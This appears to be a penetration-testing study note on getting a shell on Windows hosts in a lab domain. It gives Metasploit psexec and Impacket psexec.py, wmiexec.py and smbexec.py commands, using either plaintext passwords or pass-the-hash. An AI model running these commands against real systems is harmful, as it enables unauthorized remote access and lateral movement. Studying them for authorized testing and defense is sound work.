


### Ways to Gain Shell Access

Via Metasploit - with a password  
&ensp;	`use exploit/windows/smb/psexec`  
  
&ensp;&ensp;			Here, you use SMBDomain, SMBPass, and SMBUser in order to get a shell  
Via Metasploit - with a hash  
  
&ensp;&ensp;			Here, you can use just SMBUser and for SMBPass, use the hash gathered  
&ensp;	Metasploit is very noisy.  It's very likely this gets picked up in a live environment  

Through psexec - with a password  
&ensp;	`psexec.py marvel.local/fcastle:'Password1'@10.0.0.20`  
&ensp;&ensp;		If you leave the password out of this part you will be prompted for password when you run the command.  

Through psexec - with a hash  
&ensp;	`psexec.py administartor@10.0.0.25 -hashes LM:NT`  
&ensp;&ensp;		The `-hashes LM:NT` portion will have the hash itself, make sure to get both parts  

If psexec is being blocked or is not working, you have a couple other options  
&ensp;	`wmiexec.py` and `smbexec.py` will work in the same fashion with the same syntax as `psexec.py`  
	